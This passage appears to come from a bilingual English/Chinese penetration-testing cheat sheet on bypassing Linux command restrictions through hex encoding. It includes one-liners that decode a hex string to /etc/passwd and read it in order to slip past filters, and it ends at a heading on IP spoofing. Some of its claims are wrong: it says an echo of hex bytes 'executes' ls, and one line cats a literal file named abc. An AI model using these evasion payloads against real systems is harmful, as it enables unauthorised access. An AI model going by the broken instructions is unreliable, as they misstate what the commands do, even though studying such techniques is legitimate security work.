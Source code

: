 Hex encoding involves converting the characters of a command or file path into their hexadecimal representation. This can be done using the `xxd` command in Linux.

十六进制编码涉及将命令或文件路径的字符转换为十六进制表示。在Linux中，可以使用`xxd`命令来完成这个过程。

To bypass restrictions using hex encoding, follow these steps:

要通过十六进制编码绕过限制，请按照以下步骤进行操作：

1. Identify the command or file path that is restricted.

   确定受限制的命令或文件路径。

2. Convert the characters of the command or file path into their hexadecimal representation using the `xxd` command. For example, to convert the command `ls` into hexadecimal, you would run:

   使用`xxd`命令将命令或文件路径的字符转换为十六进制表示。例如，要将命令`ls`转换为十六进制，可以运行以下命令：

   ```bash
   echo -n "ls" | xxd -p
   ```

   This will output the hexadecimal representation of the command, which in this case would be `6c73`.

   这将输出命令的十六进制表示，对于这个例子来说，输出结果是`6c73`。

3. Use the hexadecimal representation of the command or file path to bypass the restrictions. For example, instead of running `ls`, you would run:

   使用命令或文件路径的十六进制表示来绕过限制。例如，不要运行`ls`，而是运行以下命令：

   ```bash
   echo -e "\x6c\x73"
   ```

   This will execute the command `ls` by using its hexadecimal representation.

   这将通过使用命令的十六进制表示来执行`ls`命令。

By using hex encoding, you can bypass certain restrictions imposed by the system and execute commands or access files that would otherwise be restricted.

通过使用十六进制编码，你可以绕过系统强加的某些限制，执行命令或访问本来受限的文件。
```bash
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat abc
`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
cat `xxd -r -p <<< 2f6574632f706173737764`
xxd -r -ps <(echo 2f6574632f706173737764)
cat `xxd -r -ps <(echo 2f6574632f706173737764)`
```
### 绕过IP限制

Sometimes, during a penetration test, you may encounter situations where certain IP addresses are restricted or blocked. In such cases, you can use various techniques to bypass these IP restrictions and gain access to the target system. Here are some useful Linux commands that can help you achieve this:

#### 1. IP Spoofing
